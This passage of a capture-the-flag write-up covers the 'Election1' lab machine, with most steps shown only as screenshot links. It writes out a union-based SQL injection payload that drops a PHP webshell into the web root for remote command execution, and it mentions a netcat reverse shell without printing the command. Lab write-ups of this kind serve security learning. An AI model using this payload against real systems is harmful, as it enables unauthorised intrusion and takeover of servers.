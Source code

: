 1. Capture the POST request:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a19.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a20.png)

**Send to `Repeater`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a21.png)

Confirm it's really vulnerable to SQL Injection:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a22.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a23.png)

**Confirmed it's vulnerable to Union-based SQL Injection.**

Let's test we can **load** a file or not via `load_file` in MySQL:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a24.png)

Yes!! Can we **write** into a file too?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a25.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a26.png)

**Wow!! We can! We can now write a PHP webshell into `/var/www/html`!**

**Complete POST request:**
```sql
aksi=fetch&id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,"<?php system($_GET['cmd']) ?>" into outfile '/var/www/html/webshell.php'
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a27.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a28.png)

We now have RCE (Remote Code Execution)!

**Reverse Shell:**

Since the target machine has `nc` installed, I'll use `nc` reverse shell from [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), and URL encode it, as `curl` needs URL encoding:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a45.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a29.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a30.png)
